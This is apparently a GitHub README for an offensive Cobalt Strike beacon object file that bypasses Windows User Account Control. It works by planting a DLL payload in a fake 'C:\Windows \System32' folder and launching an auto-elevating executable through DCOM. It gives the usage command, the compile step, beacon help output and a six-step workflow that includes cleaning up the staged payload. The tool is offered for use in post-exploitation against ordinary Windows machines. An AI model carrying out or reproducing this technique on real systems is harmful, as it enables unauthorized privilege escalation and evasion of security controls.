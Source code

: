 # BOF - Trusted Path UAC Bypass
Beacon object file implementation for trusted path UAC bypass. The target executable will be called without involving "cmd.exe" by using DCOM object.

Technical details:

https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

**Usage**

`Example: bof-trustedpath-uacbypass ComputerDefaults.exe /root/edputil.dll`

**Compile**

`make`

**Execution**
```
beacon> help bof-trustedpath-uacbypass
Version: 1.0
Author: Chris Au
Twitter: @netero_1010
Github: @netero1010

====================Trusted Path UAC Bypass BOF Workflow=======================
Step 1: Upload the DLL payload to "C:\Windows\Tasks"
Step 2: Create a new folder called "C:\Windows \System32"
Step 3: Copy desired executable to "C:\Windows \System32"
Step 4: Copy the DLL payload to "C:\Windows \System32"
Step 5: Use DCOM to execute "C:\Windows \System32\<desired executable>"
Step 6: Delete the DLL payload on "C:\Windows\Tasks"
================================================================================

Example: bof-trustedpath-uacbypass ComputerDefaults.exe /root/edputil.dll
```

![HowTo](https://github.com/netero1010/TrustedPath-UACBypass-BOF/raw/main/execution.png)

**Credit**
@David Wells and @Wietze for excellent research  
https://medium.com/tenable-techblog/uac-bypass-by-mocking-trusted-directories-24a96675f6e
https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

@Yas_o_h for the awesome DCOM BOF implementation  
https://github.com/Yaxser/CobaltStrike-BOF/tree/master/DCOM%20Lateral%20Movement

